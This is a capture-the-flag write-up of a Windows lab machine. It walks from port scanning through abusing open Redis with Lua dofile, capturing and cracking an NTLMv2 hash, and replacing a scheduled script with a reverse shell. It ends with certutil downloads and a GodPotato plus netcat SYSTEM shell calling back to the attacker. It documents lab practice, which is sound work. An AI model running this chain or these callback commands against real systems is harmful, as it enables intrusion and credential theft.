


Writeup by wook413

[TOC]

# Recon

## Nmap

As usual, I started this machine with a three-stage Nmap port scan. The first scan covers all 65,535 TCP ports to identify which ones are open; the second targets those open ports to determine the specific services and versions running; and the final scan performs a UDP scan on the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:09 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).
Not shown: 65523 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
6379/tcp  open  redis
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49672/tcp open  unknown
49677/tcp open  unknown
49700/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 53,135,139,445,464,6379,9389,49666,49667,49672,49677,49700                                                  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:11 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-01T19:12:23
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 96.34 secondsd
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                                   
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:14 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).

PORT     STATE         SERVICE
53/udp   open          domain
67/udp   open|filtered dhcps
123/udp  open          ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
```

# Initial Access

## SMB 139 445

Whenever I see the SMB service running, I always run Nmap scripts and use `smbclient` and `smbmap` to check if Null Authentication is possible. In this case, it appears the Null Authentication is disallowed.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:18 UTC
Nmap scan report for 10.82.180.250
Host is up (0.099s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 43.72 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.82.180.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[!] Access denied on 10.82.180.250, no fun for you...                                                                        
[*] Closed 1 connections
```

## Redis 6379

I also identified that the Redis service is running. Whenever Redis is active, the first thing I check is whether I can connect via `redis-cli` without requiring a username or password. Furthermore, I confirmed that the `info` command can be executed successfully.

```bash
┌──(kali㉿kali)-[~/Desktop]    
└─$ redis-cli -h $IP        
10.82.180.250:6379> info
# Server               
redis_version:2.8.2402        
redis_git_sha1:00000000     
redis_git_dirty:0                                                    
redis_build_id:b2a45a9622ff23b7
redis_mode:standalone             
os:Windows              
arch_bits:64                 
multiplexing_api:winsock_IOCP 
process_id:1944         
run_id:8db85b7c8b8d123cc0a77b92cdcbab65f504ad5a
tcp_port:6379            
uptime_in_seconds:913      
uptime_in_days:0              
hz:10                     
lru_clock:8366146        
config_file:                      
                                  
# Clients                      
connected_clients:1         
client_longest_output_list:0
client_biggest_input_buf:0        
blocked_clients:0             
                                  
# Memory                    
used_memory:952800         
used_memory_human:930.47K         
used_memory_rss:919256          
used_memory_peak:952800      
used_memory_peak_human:930.47K
used_memory_lua:36864   
mem_fragmentation_ratio:0.96 
mem_allocator:dlmalloc-2.8
                                  
# Persistence                 
loading:0     
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
...
...
```

`config get *`  command lists all the configuration data of the running Redis server and the value of `dir` gives me a hint about the user: `enterprise-security` .

```bash
103) "dir"
104) "C:\\\\Users\\\\enterprise-security\\\\Downloads\\\\Redis-x64-2.8.2402"
```

When I encounter services like Redis that I don’t see every day, I rely on various research resources, with **HackTricks** always being my first point of reference. According to HackTricks, Redis allows the execution of Lua code via the `EVAL` command; however, this runs within a sandbox to prevent dangerous actions. In older versions, it was possible to bypass this sandbox and read or execute server files using the `dofile` function.

[HackTricks Link](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#load-redis-module)

Knowing that the target is a **Windows OS**, I attempted to execute the `C:/Windows/System32/drivers/etc/hosts` file. Although it returned an error, the specific message confirmed that the system indeed attempted to read and execute the file.

```bash
10.81.142.229:6379> EVAL "dofile('C:/Windows/System32/drivers/etc/hosts')" 0
(error) ERR Error running script (call to f_c6c182cf35bcfa6b59bffc57f357bbb02486158f): @user_script:1: C:/Windows/System32/drivers/etc/hosts:2: unexpected symbol near '#'
```

I will exploit this behavior to intercept an NTLM hash using `Responder` . The attack flow is as follows:

1. I will execute `dofile('//My-IP/share')` via the Lua engine.
2. The Windows OS interprets the string as a UNC path and attempts to establish an SMB connection to my machine (the attacker’s machine).
3. During the SMB handshake, Windows automatically attempts to authenticate using the NTLMv2 hash of the user account running the Redis service.
4. Responder, acting as a rogue SMB server, will intercept this authentication request and capture the NTLMv2 hash.
5. The attacker (in this case, me) can crack the hash offline or relay it.

```bash
sudo responder -I tun0
```



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify hash.txt                                     
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   5600 | NetNTLMv2                                                  | Network Protocol
┌──(kali㉿kali)-[~/Desktop]                                                                                                              
└─$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

I successfully cracked the hash with `Hashcat` .

```bash
ENTERPRISE-SECURITY::VULNNET:9252f081e4c6f339:0154372585020e60c49a9a6834da0b73:010100000000000080fada3ab793dc01d1cbc8ef30759d9f00000000020008004e0030005600470001001e00570049004e002d00540032004a004600510035004a0044004f005a00380004003400570049004e002d00540032004a004600510035004a0044004f005a0038002e004e003000560047002e004c004f00430041004c00030014004e003000560047002e004c004f00430041004c00050014004e003000560047002e004c004f00430041004c000700080080fada3ab793dc01060004000200000008003000300000000000000000000000003000003282d9bc1ebe8f84ed48f37e5712ddb88c305f5073dea8faae4806653e115d760a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003100370036002e003100350037000000000000000000:sand_0873959498                    
                                                           
Session..........: hashcat                                                                                                               
Status...........: Cracked                                                                                                               
Hash.Mode........: 5600 (NetNTLMv2)                      
Hash.Target......: ENTERPRISE-SECURITY::VULNNET:9252f081e4c6f339:01543...000000                                                          
Time.Started.....: Sun Feb  1 20:16:22 2026 (5 secs)
Time.Estimated...: Sun Feb  1 20:16:27 2026 (0 secs)                 
Kernel.Feature...: Pure Kernel                                       
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)                                                                               
Guess.Queue......: 1/1 (100.00%)                                     
Speed.#1.........:   877.7 kH/s (0.89ms) @ Accel:512 Loops:1 Thr:1 Vec:8                                                                 
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)                                                            
Progress.........: 4014080/14344385 (27.98%)                         
Rejected.........: 0/4014080 (0.00%)                                 
Restore.Point....: 4012032/14344385 (27.97%)                         
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1                                                                                    
Candidate.Engine.: Device Generator                                                                                                      
Candidates.#1....: sandovalbravo -> sand418                                                                                              
Hardware.Mon.#1..: Util: 69%
```

Using the username and the password obtained from hash cracking, I used `smbclient` and `smbmap` to investigate available shares and their respective permissions. I discovered that the user has both **READ** and **WRITE** access to the **Enterprise-Share**, so I proceeded to connect to that share.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -L //$IP -U 'enterprise-security%sand_0873959498'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Enterprise-Share Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.81.142.229 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP -u enterprise-security -p sand_0873959498    

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.81.142.229:445       Name: 10.81.142.229             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Enterprise-Share                                        READ, WRITE
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections
```

Inside the share, I found a single PowerShell script named `PurgeIrrelevantData_1826.ps1` . The script simply removes everything inside the `C:\\Users\\Public\\Documents` folder. Based on tis naming convention and functionality, it appears to be a part of a scheduled task.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/Enterprise-Share/ -U 'enterprise-security%sand_0873959498'       
Try "help" to get a list of possible commands.
smb: \\> dir
  .                                   D        0  Sun Feb  1 20:21:03 2026
  ..                                  D        0  Sun Feb  1 20:21:03 2026
  PurgeIrrelevantData_1826.ps1        A       69  Wed Feb 24 00:33:18 2021

                9558271 blocks of size 4096. 4973213 blocks available
smb: \\> 
┌──(kali㉿kali)-[~/Desktop]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\\Users\\Public\\Documents\\* -ErrorAction SilentlyContinue
```

I downloaded the **Invoke-PowerShellTcp.ps1** script from the Nishang repository and modified it to automatically invoke the function and trigger a reverse shell callback upon execution. I then renamed the file to **PurgeIrrelevantData_1826.ps1** and overwrote the existing script in the **Enterprise-Share**.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ mv Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
smb: \\> put PurgeIrrelevantData_1826.ps1 
putting file PurgeIrrelevantData_1826.ps1 as \\PurgeIrrelevantData_1826.ps1 (12.2 kb/s) (average 12.2 kb/s)
smb: \\> dir
  .                                   D        0  Sun Feb  1 20:21:03 2026
  ..                                  D        0  Sun Feb  1 20:21:03 2026
  PurgeIrrelevantData_1826.ps1        A     4405  Sun Feb  1 20:28:31 2026

                9558271 blocks of size 4096. 4956468 blocks available
```

# Shell as `enterprise-security`

After a moment, the reverse shell successfully called back to my listener.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 445            
listening on [any] 445 ...
connect to [192.168.176.157] from (UNKNOWN) [10.81.142.229] 49907
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\\Users\\enterprise-security\\Downloads>whoami
vulnnet\\enterprise-security
```

Found `user.txt`

```bash
PS C:\\Users\\enterprise-security\\Desktop> dir

    Directory: C:\\Users\\enterprise-security\\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/23/2021   8:24 PM             37 user.txt                                                              

PS C:\\Users\\enterprise-security\\Desktop> type user.txt
THM{3eb...
```

# Privilege Escalation

I confirmed that the current session has the **SeImpersonatePrivilege** enabled by running `whoami /priv` .

```bash
PS C:\\Users\\enterprise-security\\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

To exploit this, I transferred the **GodPotato** exploit and a **Netcat** binary from my local kali machine to the target host.

```bash
PS C:\\Users\\enterprise-security\\Desktop> certutil -urlcache -split -f <http://192.168.176.157/GodPotato-NET4.exe> gp.exe
****  Online  ****
  0000  ...
  e000
CertUtil: -URLCache command completed successfully.
PS C:\\Users\\enterprise-security\\Desktop> certutil -urlcache -split -f <http://192.168.176.157/nc64.exe> nc.exe
****  Online  ****
  0000  ...
  aab0
CertUtil: -URLCache command completed successfully.
```

I confirmed that I could execute commands as the **SYSTEM** user by running the command below.

```bash
PS C:\\Users\\enterprise-security\\Desktop> .\\gp.exe -cmd "whoami"
[*] CombaseModule: 0x140735046483968
[*] DispatchTable: 0x140735048801456
[*] UseProtseqFunction: 0x140735048180352
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\\\.\\pipe\\e1e06003-bd2e-4a54-b482-e59217040421\\pipe\\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005802-0ff4-ffff-851c-4377f4ccde38
[*] DCOM obj OXID: 0xdd40b48fac757312
[*] DCOM obj OID: 0xae68f20ba4c7a11a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 864 Token:0x796  User: NT AUTHORITY\\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\SYSTEM
[*] process start with pid 1072
```

# Shell as `SYSTEM`

Finally, I executed a reverse shell using **GodPotato** and the **Netcat** binary, which successfully triggered a callback to the listener running on my Kali machine.

```bash
PS C:\\Users\\enterprise-security\\Desktop> .\\gp.exe -cmd ".\\nc.exe 192.168.176.157 80 -e cmd.exe"
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.176.157] from (UNKNOWN) [10.81.191.7] 49822
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
```

Found `system.txt`

```bash
C:\\Users\\Administrator\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AAC5-C2C2

 Directory of C:\\Users\\Administrator\\Desktop

02/23/2021  08:27 PM    <DIR>          .
02/23/2021  08:27 PM    <DIR>          ..
02/23/2021  08:27 PM                37 system.txt
               1 File(s)             37 bytes
               2 Dir(s)  20,432,994,304 bytes free

C:\\Users\\Administrator\\Desktop>type system.txt
type system.txt
THM{d54...
```